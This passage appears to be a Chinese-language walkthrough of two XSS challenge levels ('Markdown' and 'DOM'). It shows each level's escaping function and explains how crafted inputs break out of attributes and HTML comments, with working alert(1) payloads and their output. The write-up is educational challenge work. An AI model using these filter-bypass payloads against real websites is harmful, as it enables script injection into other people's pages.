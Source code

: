 <a name="a005"/></a>
### Markdown (31)
```javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
第一行代码将所有`< "`字符进行了转义
第二行是将形如`http://S+ `的字符串改写为
```html
<a href="http://S+">http://S+</a>
```
（S+为匹配一个非空白字符一次或多次）
第三行将形如`[[a|b]]`的字符串改写为 
```html 
<img alt="b" src="a.gif"> 
```
先放出payload
```html
[[a|http://onerror=alert(1)//]]
```
该函数构造的结果为
```html
<img alt="<a href="http://onerror1=alert(1)//" src="a.gif">">http://onerror=alert(1)//]]</a>
```
利用`//`来代替空格，href的起始`"`闭合alt的`"`，再用`//`注释掉最后的`"` 

<a name="a006"/></a>
### DOM (32)
```javascript
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```
通过`#`对字符串`s`进行切分，`document['create' + m[0]]`相当于调用了`document.createXXX()`函数,使用`document.createComment()`函数测试一下
```html
Comment#111111
```
Output
```html
<!--11111-->
```
那提前闭合注释标签，构造JavaScript代码就行了，payload如下
```html
Comment#--><img/onerror=alert(1) src=x/>
```
还可以缩短一下
```Html
Comment#><iframe/onload=alert(1)
```
Output
```html
<!--><iframe/onload=alert(1)-->
```